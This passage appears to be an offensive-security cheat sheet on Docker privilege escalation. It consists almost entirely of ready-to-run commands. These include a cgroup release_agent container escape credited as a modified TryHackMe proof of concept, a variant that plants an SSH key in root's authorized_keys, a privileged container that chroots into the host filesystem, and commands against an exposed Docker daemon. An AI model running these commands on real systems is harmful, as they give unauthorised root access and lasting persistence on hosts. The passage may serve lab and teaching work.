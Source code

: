 #### Modified PoC by TryHackMe

```c
$ mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
$ echo 1 > /tmp/cgrp/x/notify_on_release
$ host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
$ echo "$host_path/exploit" > /tmp/cgrp/release_agent
$ echo '#!/bin/sh' > /exploit
$ echo "cat /home/cmnatic/<FILE> > $host_path/<FILE>" >> /exploit
$ chmod a+x /exploit
$ sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

#### PoC for SSH Key Deployment

```c
mkdir /tmp/exploit && mount -t cgroup -o rdma cgroup /tmp/exploit && mkdir /tmp/exploit/x
echo 1 > /tmp/exploit/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/exploit/release_agent

echo '#!/bin/sh' > /cmd
echo "echo '<SSH_KEY>' > /root/.ssh/authorized_keys" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/exploit/x/cgroup.procs"
```

### Docker Socket Privilege Escalation

#### Checking for Docker Socket

```c
$ ls -la /var/run | grep sock
```

#### Create a privileged Docker Container and mount the Host Filesystem

```c
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

### Exposed Docker Daemon

#### Checking for Misconfiguration

```c
$ curl http://<RHOST>:2375/version
```

#### Command Execution

```c
$ docker -H tcp://<RHOST>:2375 ps
```
